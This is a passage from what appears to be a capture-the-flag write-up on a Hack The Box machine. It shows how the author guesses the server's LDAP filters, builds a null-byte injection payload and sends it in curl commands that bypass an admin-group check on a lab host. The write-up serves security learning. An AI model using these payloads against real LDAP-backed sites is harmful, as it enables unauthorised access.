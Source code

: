 I looked around to see if I was sending my username anywhere in the request to the command form. But I was not. Given that the site is running php, what I’ll hypothesize is happening is that on login, my username is stored in a session variable. Then, on visiting `page.php` it loads the session variable, gets the username, and checks it against LDAP to see if I’m in the right group.

If this is the case, then I have some control over the name that’s stored. I want to store a username that will actually be an injection to dork the check on `page.php`. This is similar to [second-order SQL injection](/2018/07/07/second-order-sql-injection-on-htb-nightmare.html). In this case, I need to be able to submit some username that is able to pass the login LDAP query *and* that will dork the administrator check LDAP query on `page.php`.

This double injection will be much easier to pull off if the number of `()` on the two queries I’m trying to get through happen to be same. I’ll start with that case and hope it works. For examples, if I guess that the login query and admin check queries are something like:

```

login: (&(uid=$username)(pager=*))
admin: (&(uid=$username)(group='Admin'))

```

Then I can try to use null bytes to do this second order injection. If I provide `ldapuser))%00`, the queries will be:

```

login: (&(uid=ldapuser))%00)(pager=*))
admin: (&(uid=ldapuser))%00)(group='Admin'))

```

Since the null truncates:

```

login: (&(uid=ldapuser))
admin: (&(uid=ldapuser))

```

That input will get both queries to return my user!

### Exploit Second Order Ldap Injection

I showed an example where I needed one closing `)`. But I don’t know that number. I’ll just test with differing numbers of closing parentheses. The query that’s being run on the server is likely more complex than what I guessed above, so more maybe needed to balance things out.

I’ll use curl, and look for a 302 redirect, which happens on successful login:

```

root@kali# curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser%2529%2500&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302
root@kali# curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser%2529%2529%2500&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302
root@kali# curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser%2529%2529%2529%2500&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302
< HTTP/1.1 302 Found

```
